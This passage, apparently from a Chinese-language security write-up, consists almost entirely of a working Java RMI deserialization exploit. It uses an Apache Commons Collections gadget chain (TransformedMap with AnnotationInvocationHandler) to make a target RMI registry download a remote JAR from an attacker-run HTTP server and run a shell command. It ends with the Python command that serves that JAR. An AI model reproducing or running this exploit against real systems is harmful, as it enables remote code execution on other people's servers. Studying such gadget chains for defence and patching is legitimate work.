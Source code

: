 ```
        int port = 1099; //注册中心端口
        String remotejar = "http://127.0.0.1:8081/RMIexploit.jar";
        String command = "whoami";
        final String ANN_INV_HANDLER_CLASS = "sun.reflect.annotation.AnnotationInvocationHandler";

        try {
            final Transformer[] transformers = new Transformer[] {
                    new ConstantTransformer(java.net.URLClassLoader.class),
                    new InvokerTransformer("getConstructor", new Class[] { Class[].class }, new Object[] { new Class[] { java.net.URL[].class } }),
                    new InvokerTransformer("newInstance", new Class[] { Object[].class }, new Object[] {new Object[] {new java.net.URL[] { new java.net.URL(remotejar) }}}),
                    new InvokerTransformer("loadClass", new Class[] { String.class }, new Object[] {"ErrorBaseExec"}),
                    new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] { "do_exec", new Class[] { String.class } }),
                    new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new String[] { command } })
            };
            Transformer transformedChain = new ChainedTransformer(transformers);
            Map innerMap = new HashMap();
            innerMap.put("value", "value");

            Map outerMap = TransformedMap.decorate(innerMap, null,
                    transformedChain);
            Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
            Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
            ctor.setAccessible(true);

            Object instance = ctor.newInstance(Target.class, outerMap);
            Registry registry = LocateRegistry.getRegistry(ip, port);
            InvocationHandler h = (InvocationHandler) getFirstCtor(ANN_INV_HANDLER_CLASS).newInstance(Target.class, outerMap);
            Remote r = Remote.class.cast(Proxy.newProxyInstance(
                    Remote.class.getClassLoader(),
                    new Class[] { Remote.class }, h));
            registry.bind("liming", r);
        } catch (Exception e) {
            try {
                System.out.print(e.getCause().getCause().getCause().getMessage());
            } catch (Exception ee) {
                throw e;
            }
        }
    }
}
```

用python起一个简易的http服务器

```
py -3 -m http.server 8081
```
